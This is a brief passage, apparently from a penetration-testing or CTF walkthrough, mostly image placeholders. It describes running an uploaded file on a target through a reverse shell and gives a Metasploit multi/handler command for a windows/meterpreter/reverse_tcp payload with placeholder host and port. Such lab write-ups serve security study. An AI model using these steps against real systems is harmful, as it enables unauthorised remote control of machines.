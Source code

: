 To download it, we have to build the project again.

<figure><img src="../../.gitbook/assets/Untitled 27 (1).png" alt=""><figcaption></figcaption></figure>

Now the file is in the target machine. We have to launch again a revshell to execute that file (the port should not be the same we configurated with msfvenom before, as it will be used to the meterpreter connection:

<figure><img src="../../.gitbook/assets/Untitled 28 (1).png" alt=""><figcaption></figcaption></figure>

Before running this program, ensure the handler is set up in metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`

<figure><img src="../../.gitbook/assets/Untitled 29 (1).png" alt=""><figcaption></figcaption></figure>

